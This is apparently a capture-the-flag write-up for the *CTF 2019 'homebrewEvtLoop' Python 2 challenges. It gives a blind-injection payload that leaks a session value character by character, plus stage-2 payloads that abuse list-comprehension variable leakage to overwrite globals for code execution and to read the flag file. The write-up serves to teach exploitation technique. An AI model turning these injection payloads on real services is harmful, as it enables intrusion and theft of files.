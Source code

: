 # [*CTF 2019 Misc] `homebrewEvtLoop--` and `homebrewEvtLoop#`

An interesting python2 challenge. You may find some techniques here similar to those in SQL injection.

## Problem

Please find the `server.py`.

## Solution
 
#### stage 1 (Blind injection)
```python
session[args[0]][52]in[event[8]][0]and[dir][0]or[abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789]114514log
```

Blind injection by changing the indexes, `[52]` of `session[args[0]]`(`session['log']`) and `[8]` of `event`, with reusing the submitted string `event` as alphabet.     

Alternatively, you can use `valid_event_chars` as alphabet, or get the flag directly by using a `list comprehension exploit` of stage 2 like `[[str][0]for[args]in[[session]]][0]114514`.

#### stage 2 (Remote Code Execution)
```python
[[str]for[PoW]in[[switch_safe_mode]]for[raw_input]in[[input]]][0][0]114514
['[[str]for[args]in[[session]]][0][0]114514' for session in [open('flag','rb').read()]][0]
```

This is a feature of python2, that list comprehension could be used as assignments to global variables.

## Related Challenges

`DDCTF 2019` - Web: `homebrew event loop`
